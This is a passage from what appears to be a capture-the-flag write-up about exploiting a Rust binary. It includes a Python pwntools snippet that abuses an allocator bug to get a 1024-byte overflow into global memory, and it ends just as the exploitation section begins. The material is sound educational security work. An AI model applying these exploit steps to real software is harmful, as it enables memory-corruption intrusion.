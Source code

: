 ![image](/files/bts/imgs/tree2.png)


This gives us a strong primitive of a 1024-byte long overflow in the binary section with global variables.
```python
    # Exploit the bug in the memory allocator to get a strong primitive
    # of a 1024-byte long overflow.
    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"1024")
    io.sendlineafter(b"flag:", b"A")

    io.sendlineafter(b"gimme", b"2")

    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"2048")
```

### Exploitation

If we inspect the memory, we can see that the rust compiler nicely placed for us some useful structs after our MEM array.
